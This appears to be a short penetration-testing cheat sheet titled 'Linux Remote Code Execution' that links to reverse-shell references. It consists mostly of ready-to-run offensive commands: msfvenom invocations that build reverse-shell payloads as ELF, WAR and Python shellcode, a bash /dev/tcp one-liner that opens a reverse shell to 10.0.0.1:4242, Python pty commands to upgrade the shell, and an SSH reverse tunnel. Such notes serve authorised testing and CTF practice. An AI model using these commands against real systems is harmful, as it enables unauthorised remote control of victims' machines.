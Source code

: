 # Linux Remote Code Execution

## <a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)</a>

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

### Check list

``` bash
msfvenom  --list encoders
```

### File

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

### Java Code

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Shell Code

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -v shellcode -f py
```

## Reverse Shell using bash

``` bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```